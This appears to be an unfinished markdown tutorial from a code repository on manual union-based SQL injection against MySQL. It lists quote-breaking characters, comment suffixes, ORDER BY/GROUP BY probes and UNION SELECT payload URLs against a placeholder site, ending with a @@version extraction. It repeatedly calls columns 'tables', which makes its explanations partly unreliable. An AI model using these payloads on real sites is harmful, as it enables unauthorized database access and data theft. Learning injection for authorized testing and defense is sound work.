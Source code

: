 # MySQL SQL Injection

#### My steps to perform SQL Injection.
1. Break the Query.
2. Fix the Query.
3. Get the total number of tables.
4. Get the vulnarable table(s).
5. Exploit. (get the data from database)


### 1) Break the Query.
- let's say we have target https://website.com/product/id?=23 now, we want to test this URL for SQL Injection. So, as described in steps above, the very first thing we've to do is **Break the Query**.
- So, for breaking the query, we can use ``` ', ", `, . ```
 - example,
   - https://website.com/product/id?=23'
   - https://website.com/product/id?=23"
- after adding the ``` ', ", `, .```, you'll see error messages like, `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1` or maybe unusual behaviour in target website.

### 2) Fix the Query.
- after breaking the query, we've to fix the query. So, we can **balance** the **SQL QUERY**.
- So, for that we can use ``` --, --+, -- -, #, --#, ., -, /*, '), "), `), ')), ")),`)), ') -- ```
- example,
   - https://website.com/product/id?=23' --
   - https://website.com/product/id?=23' --+
   - https://website.com/product/id?=23' -- -
   - https://website.com/product/id?=23' #
   - https://website.com/product/id?=23' --#
   - https://website.com/product/id?=23' /*
   - https://website.com/product/id?=.23' --+ (see the `.`)
   - https://website.com/product/id?=-23' --+ (see the `-`)
   - https://website.com/product/id?=-23') --+ (see the `-`)
   - etc. (*there are many ways to fix the query. at the time of wrting this, I forgot some of them. I'll add them If I came to know about it. till then, add your own variations to it.*)
 
### 3) Get the total number of tables.
- after balancing/fixing the query, we need to solve this question. **how many tables are there in the database?**
- So, to check the tables we can use ``` ORDER BY, GROUP BY, PROCEDURE ANALYSE() ```
- example,
   - https://website.com/product/id?=23' ORDER BY 5-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 4-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 3-- NO ERROR.
     - So, website has 3 tables.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4,5-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3-- NO ERROR.
     - So, website has 3 tables.
   - https://website.com/product/id?=23' PROCEDURE ANALYSE()-- ERROR. (In this method, the website will act wiredly. So, keep closer look on website. ex. list random lists, paragraphs, errors, or something else, etc.)
     - Look at the website, if website lists random things let's say some 3 dots or whatever. then, confirm that, website has 3 tables.

### 4) Get the vulnarable table(s).
- after getting the total number of table, now it's time to find vulnerable table, where we can try to place our pyloads strings to get the data from the database.
- So, to get the vulnerable table, we can use ```UNION SELECT NULL or INT ```.
- add the NULL or INT value, total number of tables we get.
- example,
   - https://website.com/product/id?=23' UNION SELECT 1,2,3-- Because, we got the total 3 tables.
   - https://website.com/product/id?=23' UNION SELECT NULL,NULL,NULL--
- now, in the case of `https://website.com/product/id?=23' UNION SELECT 1,2,3--`, you'll see a numbers been reflacted on the website. ex. 2,3. So, table 2 & 3 is vulnerable.
- in case of NULL, we've to replace NULL by adding strings in each NULL value to get the vulnerable table.
- example.
  - https://website.com/product/id?=23' UNION SELECT 'findVulTbl',NULL,NULL-- See, if `findVulTbl` been reflacted on website or not. if yes, then, congratulations, we've found vulnerable table.
  - if not, go ahead and try, https://website.com/product/id?=23' UNION SELECT NULL, 'findVulTbl',NULL--.
  - try until you find some string being reflacted on website.

5. Exploit. (get the data from database).
- So, after getting vulnerable table(s), we can get the data from database by using various payloads.
- example : https://website.com/product/id?=23' UNION SELECT NULL,@@version,NULL-- to get the database version.


**Note:** not completed. to be continued...
